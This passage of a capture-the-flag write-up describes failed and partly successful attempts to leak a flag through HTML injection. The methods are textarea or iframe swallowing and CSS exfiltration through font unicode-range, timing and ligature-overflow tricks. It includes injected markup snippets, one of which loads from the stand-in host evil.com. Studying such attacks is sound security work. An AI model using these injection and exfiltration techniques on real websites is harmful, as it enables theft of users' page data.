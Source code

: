 ```
So the idea here is that certain elements like `textarea` or `iframe` consume everything until its corresponding closing tag (which may not exist, in which case it consumes everything). So something like
```
<input type="hidden" id="bg" value=""><textarea>">
<script nonce="kk3VoGafsG2whnkRZ4DPjZu7IBY=">
```
would place the entire contents of everything below it (including the flag) into a textarea. The problem now changes slightly to: how do we leak this textarea value? We can make it part of a form with a submit button and all, but as far as we can tell it will require some human input (e.g. click a button) to actually send the request. It seems impossible to make the page auto-submit the form without any javascript, so again we had to reject this.

Along a similar train of thought, we tried something like
```
<input type="hidden" id="bg" value=""><iframe src="http://evil.com">">
<script nonce="kk3VoGafsG2whnkRZ4DPjZu7IBY=">
```
where the rest of the page is swallowed by the `iframe` element. Unfortunately, it doesn't leak this value in any way that can be accessed from within the `iframe` itself. Time to look for another attack vector.

#### Idea 2c - CSS exfil

This was the attack vector we thought most promising, and spent countless hours trying to make work. There is a great collection of CSS Injection Primitives at the [Doomsday Vault](https://x-c3ll.github.io/posts/CSS-Injection-Primitives/), but the basic idea is to leak the flag using pure CSS and no javascript. It turns out that CSS is amazingly versatile in what it can do. This is also very promising since we have full ability to inject CSS, either as a `style` element, or a link to our stylesheet.

The usual technique discussed with respect to CSS is attribute exfiltration. As it stands, the flag isn't an attribute, but maybe we could turn it into one? Unfortunately, the flag is too far away from our injection point, and neither single nor double quotes can escape far enough to turn the flag into (a substring of) an attribute.

No matter. There are also text node infiltration techniques described there. There's a few variants of this, and we tried them in very many combinations, but it basically reduces to some combination of these:
1. Using `@font-face` with custom unicode-range. Roughly speaking, we make it load capital A (U+0041) from a different font, capital B (U+0042) from a different font and so on. These fonts will of course be loaded from our own webserver (at http://evil.com), so that we can leak the exact set of characters used in the flag. This actually succeeded: we found that the characters that appeared in the flag was exactly those of `03:>CDGSUZ_acgjlmnrstuy{}` (possibly with duplicates).
2. Timing attacks. This is basically trying to make the fonts get loaded "left to right" so we know the rough order of where the characters appear (up to do duplicates). The idea is that if we can determine the order where each character first appears, we might have something like `CSG{c0ngratZ_yul3DsUmj:>}` from which we might be able to guess the flag. We tried to approach this a few ways but to no avail.
3. Ligature attacks. So, it's possible to make fonts that have oddly specific ligatures, e.g. we could make `CS` appear as an oversized glyph. What this would then do is make the flag overflow its container, so all we need is some way to detect this overflow. Fortunately, the `::-webkit-scrollbar` pseudo-element does exactly this: we can let the scrollbar take a background image from our endpoint, thus leaking us as to whether the glyph appears. If we know that `CS` exists, we can then test the next letter by testing `CSA`, `CSB`, etc. and learn that the next letter is `C`. So we can keep growing out ligature until we get the whole flag. In practice this requires us to make multiple submissions to the admin, but that seems fair game for the challenge (though maybe not in real life). Unfortunately, and this is a huge "unfortunately", the remote client does not have scrollbars! Zero. Nada. Zilch. We never did figure out why this was the case, until a post-mortem conversation with the author revealed that [puppeteer simply ran headless chrome with --hide-scrollbars by default](https://github.com/puppeteer/puppeteer/issues/4747). We never did manage to get this working, and probably lost a dozen manhours just trying to make a scrollbar appear at all on any website.
```
